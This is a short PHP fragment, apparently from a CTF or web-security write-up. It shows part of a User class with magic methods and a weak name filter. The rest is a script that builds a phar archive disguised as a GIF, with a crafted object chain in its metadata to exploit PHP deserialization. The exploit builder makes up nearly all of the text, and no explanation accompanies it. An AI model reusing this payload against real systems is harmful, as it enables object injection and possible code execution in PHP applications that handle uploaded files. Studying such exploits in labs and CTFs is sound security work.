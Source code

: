 ```
	public function __wakeup(){
		$this->UserWaf($this->name);
	}
	public function __toString(){
		return $this->profile->name;
	}
	public function __destruct(){
		echo "Hello ".$this->UserWaf($this->name).".</br>";
		
	}
	public function UserWaf($name){
		if(strlen($name)>10){
			return "admin";
		}
		if(!preg_match("/[a-f0-9]/iu",$name)){
			return "admin";
		}
		return $name;
	}
}

$phar = new Phar('phar.phar');
$phar -> startBuffering();    
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$a = new User("abb");
$b = new User("bcc");
$exp = new Modifier;
$a -> name = &$b;
$exp->new_id = &$exp->old_id;
$b -> profile = &$exp;
$phar -> setMetadata($a);
$phar -> addFromString('test.txt','test');
$phar -> stopBuffering();

?>

```

